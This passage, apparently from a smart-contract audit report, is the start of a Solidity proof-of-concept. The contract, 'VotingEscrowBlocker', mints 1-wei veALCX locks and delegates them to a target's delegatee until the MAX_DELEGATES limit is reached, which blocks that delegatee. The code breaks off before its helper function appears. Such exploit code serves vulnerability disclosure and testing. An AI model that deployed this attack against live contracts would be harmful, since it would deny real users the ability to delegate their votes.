 ```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.15;

import "lib/forge-std/src/Test.sol";
import "./BaseTest.sol";
import "openzeppelin-contracts/contracts/token/ERC721/utils/ERC721Holder.sol";

// VotingEscrowBlocker is a contract that help attacker to simplify the attacks.
// This will help to callculate the missing limit on target balance to hit the MAX_DELEGATES limit.
// Also, it will manage its veALCX tokens when increasing and decreasing using create lock and merge
contract VotingEscrowBlocker is ERC721Holder, Ownable {
    uint256 immutable _VEALCX_MAX_DELEGATES;
    VotingEscrow public immutable veALCX;
    address public immutable bpt;

    uint256 public lastUsed;

    constructor(address _ve, address _bpt) {
        veALCX = VotingEscrow(_ve);
        bpt = _bpt;

        _VEALCX_MAX_DELEGATES = veALCX.MAX_DELEGATES();

        IERC20(bpt).approve(address(veALCX), type(uint256).max);
    }

    // Create single lock with very little amount (1 Wie of BPT) 
    function createOneVeALCX() public onlyOwner {
        veALCX.createLockFor(1 wei, 42 weeks, true, address(this));
    }

    // Merge the last two veALCX tokens to reduse the number of balance
    function mergeLastVeALCXs() public onlyOwner {
        uint256[] memory tokenIds = veALCX.getTokenIds(address(this));
        veALCX.merge(tokenIds[tokenIds.length -1], tokenIds[tokenIds.length -2]);
    }

    //  increase balance of VeALCX Tokens
    function increaseVeALCXTokens(uint256 length) public onlyOwner {
        for (uint256 i = 0; i < length; i++) {
            createOneVeALCX();
        }
    }

    //  decrease balance of VeALCX Tokens
    function decreaseVeALCXTokens(uint256 length) public onlyOwner {
        for (uint256 i = 0; i < length; i++) {
            mergeLastVeALCXs();
        }
    }
    

    // Block target address by delegating the balance of this contract to its delegatee, after calculating the limit of the target. 
    function blockDelegateeOf(address target) public onlyOwner {
        address targetDelegatee = veALCX.delegates(target);
        _generateTokenLimitOf(targetDelegatee);
        
        veALCX.delegate(targetDelegatee);
        lastUsed = block.number;
    }

```

[1]: [alchemix-v2-dao/src/VotingEscrow.sol#L34 at GitHub](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L34)
[2]: [alchemix-v2-dao/src/VotingEscrow.sol#L1040 at GitHub](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L1040)
[3]: [alchemix-v2-dao/src/VotingEscrow.sol#L1110 at GitHub](https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/VotingEscrow.sol#L1110)